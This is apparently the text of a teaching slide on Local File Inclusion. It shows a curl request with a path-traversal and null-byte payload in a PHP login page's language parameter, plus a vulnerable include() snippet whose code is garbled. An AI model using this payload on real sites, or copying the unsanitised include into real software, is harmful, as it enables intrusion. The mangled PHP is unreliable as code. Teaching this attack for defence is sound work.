

# Local File Inclusion
$ curl
 https://example.com/login.php?language=../../../../admin_interface.php%00
<?php
   if ( isset( $_GET['language'] ) ) {
      include( $_GET[../../../../admin_interface.php%00] . '.php' );
   }
?>